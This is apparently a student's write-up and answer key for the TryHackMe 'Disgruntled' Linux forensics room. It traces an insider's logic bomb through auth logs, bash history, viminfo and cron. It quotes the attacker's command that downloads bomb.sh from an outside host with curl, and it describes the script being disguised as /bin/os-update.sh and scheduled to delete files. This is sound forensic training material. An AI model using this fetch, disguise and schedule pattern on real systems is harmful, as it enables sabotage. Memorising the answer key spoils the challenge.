# Disgruntled
Use your Linux forensics knowledge to investigate an incident.

[TryHackMe Room](https://tryhackme.com/room/disgruntled)

## Introduction
Hey, kid! Good, you’re here!

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

## Tools Used
- Crontab Guru

## Pre-requisites
This room requires basic knowledge of Linux and is based on the [Linux Forensics room](https://tryhackme.com/room/linuxforensics). A cheat sheet is attached below.



---
---

## Answer the questions below

*Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.*

*My advice: Look at the privileged commands that were run. That should get you started.*

### 1. The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
Tracking down sudo commands from auth logs helped to locate the full command that was ran to install the package, **/usr/bin/apt install dokuwiki**. This was achieved by using the command:

```
grep sudo auth.log* | grep COMMAND
```



### 2. What was the present working directory (PWD) when the previous command was run?
From the same image above, the command was ran from the **/home/cybert** working directory.

---

*Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.*

### 3. Which user was created after the package from the previous task was installed?
Searching for the "adduser" string pointed out the user creation of **it-admin**. This was achieved by using the command:

```
grep sudo auth.log* | grep adduser
```



### 4. A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
When editing the sudoers file, visudo is used. To know when the file was last updated, correlating indicators (timestamp, hostname, program, user, PWD, and COMMAND) were used. The sudoers file was update on **Dec 28 06:27:34**. This was achieved by using the command:

```
grep sudo auth.log* | grep visudo
```



### 5. A script file was opened using the "vi" text editor. What is the name of this file?
By searching for the "vi" command, the **bomb.sh** script was tracked down. This was validated by the user that ran it, the attacker created account, it-admin. This was achieved by using the command:

```
grep sudo auth.log* | grep vi
```



---

*That **bomb.sh** file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.*

### 6. What is the command used that created the file **bomb.sh**?

*Tip: The command was run by a different user account. Look at the ".bash_history" in the user's home directory.*

By going to the /home/it-admin directory and inspecting its bash history, the command (**curl 10.10.158.38:8080/bomb.sh --output bomb.sh**) to download the script was identified. This was achieved by using the command:

```
cat .bash_history
```



### 7. The file was renamed and moved to a different directory. What is the full path of this file now?

*Tip: The vi text editor can edit and save files to a different location. Check out the history of vi by looking for ".viminfo".*

By investigating the Command Line History of .viminfo, bomb.sh was saved and renamed to **/bin/os-update.sh**. This was achieved by using the command:

```
vi .viminfo
```



### 8. When was the file from the previous question last modified? (Format: Month Day HH:MM) This was achieved by using the command:
The last modification date of the os-update.sh file were identified by listing the contents of the /bin directory and using the full time option. This was achieved by using the command:

```
ls -l --full-time | grep "os-update.sh"
```



### 9. What is the name of the file that will get created when the file from the first question executes?
From the same image above, reading the file shows that **goodbye.txt.** will be created if it gets executed. This was achieved by using the command:

```
cat os-update.sh
```



---

*So we have a file and a motive. The question we now have is: how will this file be executed?*

*Surely, he wants it to execute at some point?*

### 10. At what time will the malicious file trigger? (Format: HH:MM AM/PM) This was achieved by using the command:

*Tip: Check out the crontab and convert the schedule expression using a site like https://crontab.guru/.*

By reading all the cron files and grepping for os-update.sh, its cron job were located. This was achieved by using the command:

```
cat cron* | grep "os-update.sh"
```



To decode its schedule, Crontab Guru were utilized. The job will run at **08:00 AM** every day.



## Conclusion
*Thanks to you, we now have a good idea of what our disgruntled IT person was planning.*

*We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.*

*Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.*

---
---

## References
- Crontab Guru: https://crontab.guru/#0_8_*_*_*
